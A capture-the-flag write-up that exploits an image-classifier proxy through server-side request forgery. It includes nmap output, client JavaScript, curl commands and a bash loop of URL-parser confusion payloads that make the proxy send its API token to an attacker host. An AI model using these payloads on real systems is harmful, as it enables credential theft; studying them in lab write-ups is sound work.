



# Portscan

Nmap returns the following open ports:

```
PORT      STATE SERVICE
25998/tcp open  unknown
53499/tcp open  unknown
```

After closer inspection, it turned out that both are HTTP servers.

# Checking the sites

The <http://10.10.3.12:25998/> is returning an empty page.

The <http://10.10.3.12:53499/> is returning a website. It is a beta site for pet image classification software with API Explorer.



The main site is communicating with the other port, revealing an another port.



# Javascript

Checking the `app.f9a79fc7.js` javascript reveals more information about the api endpoint. It is sending a multipart form (`image` parameter) to the <http://10.10.3.12:25998/proxy> endpoint with the proxied server as GET parameter (not url encoded) and `X-Playground: true` header.

```js
const e = new FormData;
e.append("image", this.selectedImage);
const t = {headers: {"Content-Type": "multipart/form-data"}};
try {
    let s;
    if (this.apiKey) 
        t.headers.Authorization = `Bearer ${this.apiKey}`, s = await this.$http.post("/classify", e, t); 
    else {
        t.headers["X-Playground"] = "true";
        const a = `/proxy?url=http://${this.siteDomain}/classify`;
        s = await this.$proxy.post(a, e, t);
    }
    this.classificationResult = s.data, this.errorMessage = null;
} catch (s) {
    console.error("Error classifying image:", s), this.errorMessage = s.message, s.response && (this.errorMessage += `: - ${s.response.data}`), this.classificationResult = null;
}
```

# Curl

Replicating the query with curl.

```bash
curl -v -F image=@dog.jpg  -H 'X-Playground: true' 'http://10.10.3.12:25998/proxy?url=http://whoami.honeylab.hu/classify'
curl -v -G -H 'X-Playground: true' 'http://10.10.3.12:25998/proxy?url=http://whoami.honeylab.hu/'
```

Urlencoding the characters also works, it is decoded on the server side.

# Changing the domain

Changing the proxied domain returns `Invalid url`. 

Assuming that the proxy is sending the API key, we can try confusing the parsers.

Based on the [Hacktricks domain confusion](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#domain-confusion) list:

```bash
domain="whoami.honeylab.hu"
attacker="10.0.1.2:12345"
confuse="
http://$domain@$attacker
http://$domain.$attacker
http://$domain%6D@$attacker
http://$attacker/$domain
http://$attacker/?d=$domain
http://$attacker#$domain
http://$attacker@$domain
http://$attacker#@$domain
http://$attacker%23@$domain
http://$attacker%00$domain
http://$attacker%0A$domain
http://$attacker?$domain
http://$attacker///$domain
http://$attacker\\$domain/
http://$attacker;https://$domain
http://$attacker\\$domain/
http://$attacker\.$domain
http://$attacker/.$domain
http://$attacker\@@$domain
http://$attacker:\@@$domain
http://$attacker#\@$domain
http://$attacker\anything@$domain/
" 
while IFS= read -r line; do curl -v -G -H 'X-Playground: true' "http://10.10.3.12:25998/proxy?url=$line"; done <<<"$confuse"
```

This sends back to us the token, which is itself the flag.



# Flag

cq23{n3ver_p4rS6_URL5_w1th_r3g3x_1066f6cec9dd3d4274940c52a8d1b3d0}